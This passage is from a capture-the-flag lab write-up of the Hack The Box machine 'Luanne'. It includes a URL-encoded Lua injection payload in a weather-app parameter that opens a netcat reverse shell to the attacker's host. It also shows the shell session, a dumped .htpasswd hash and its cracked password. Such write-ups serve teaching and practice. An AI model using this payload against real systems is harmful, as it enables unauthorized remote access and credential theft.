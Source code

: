 ## Lua Reverse Shell

I ran gobuster under weather folder (as per robots.txt) and found forecast Lua app:

![lua app](/assets/img/htb/luanne/lua-app.png)

After some google fu found a way to run reverse shell:

```
http://10.10.10.218/weather/forecast?city=London%27%29%3Bos.execute%28%22rm%20%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.26%204545%20%3E%2Ftmp%2Ff%22%29--
```

and got it:

```
sh4ck@kali:~/Desktop$ nc -nlvp 4545
listening on [any] 4545 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.218] 57609
sh: can't access tty; job control turned off
$ id
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
``` 
I found http basic auth onto .htpasswd

```
$ ls -la
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25 11:27 .
drwxr-xr-x  24 root  wheel  512 Nov 24 09:55 ..
-rw-r--r--   1 root  wheel   47 Sep 16 15:07 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17 20:56 index.html
-rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
$ cat .htpasswd
webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```
I proceeded to cracking hash with hashcat and got: `iamthebest`

So i enumerated home folder: 
```
$ ls -la /home
total 12
drwxr-xr-x   3 root        wheel  512 Sep 14 06:46 .
drwxr-xr-x  21 root        wheel  512 Sep 16 22:05 ..
dr-xr-x---   7 r.michaels  users  512 Sep 16 18:20 r.michaels
```
and at the same time, i decided to explore service at port 9001. 
